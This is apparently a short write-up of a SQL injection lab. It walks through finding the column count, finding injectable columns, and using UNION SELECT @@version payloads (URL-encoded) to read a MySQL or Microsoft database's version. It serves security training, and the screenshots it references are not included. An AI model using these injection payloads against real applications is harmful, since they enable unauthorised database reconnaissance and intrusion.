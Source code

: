## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Step 1

Check number of column

<img src="Images/ps1.png" width="400" height="200">

## Step 2

Check in which column we can insert

<img src="Images/ps2.png" width="400" height="200">

Here we are able to insert in both column

<img src="Images/ps3.png" width="400" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="Images/ps4.png" width="400" height="200">

And we have the answer

<img src="Images/ps5.png" width="400" height="200">

---
